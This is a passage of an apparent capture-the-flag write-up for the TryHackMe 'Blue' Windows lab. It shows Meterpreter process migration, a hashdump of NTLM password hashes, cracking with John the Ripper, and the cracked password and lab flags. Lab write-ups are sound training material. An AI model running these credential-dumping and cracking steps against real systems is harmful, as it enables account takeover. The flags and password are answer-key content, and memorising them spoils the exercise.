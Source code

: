 
--> alot of processes are running NT AUTHORITY\SYSTEM, but I believe the one we are out for is powershell.exe - 2520:
meterpreter > migrate 2520
[*] Migrating from 928 to 2520...
[*] Migration completed successfully.

--> worked on first try! Next is to get a hashdump (for passwords):
meterpreter > hashdump
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

--> we got the hash for the user jon so next is to crack it! I will be using john for this:
(kali㉿kali)-[~/THM/practice/blue]
└─$ cat admin.hash 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::

(kali㉿kali)-[~/THM/practice/blue]
└─$ mv admin.hash jon.hash

(kali㉿kali)-[~/THM/practice/blue]
└─$ john jon.hash --format=NT --wordlist=/usr/share/wordlists/rockyou.txt                                       1 ⨯
Using default input encoding: UTF-8
Loaded 1 password hash (NT [MD4 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
alqfna22         (Jon)
1g 0:00:00:00 DONE (2022-01-29 19:48) 1.818g/s 18546Kp/s 18546Kc/s 18546KC/s alr19882006..alpusidi
Use the "--show --format=NT" options to display all of the cracked passwords reliably
Session completed

--> we got the password! (alqfna22)






--> flag1.txt could be found in cd .. x2
flag{access_the_machine}
--> flag2.txt could be found in \Users\Jon
flag{sam_database_elevated_access}
--> flag3.txt could be found in \Windows\System32\Config
flag{admin_documents_can_be_valuable}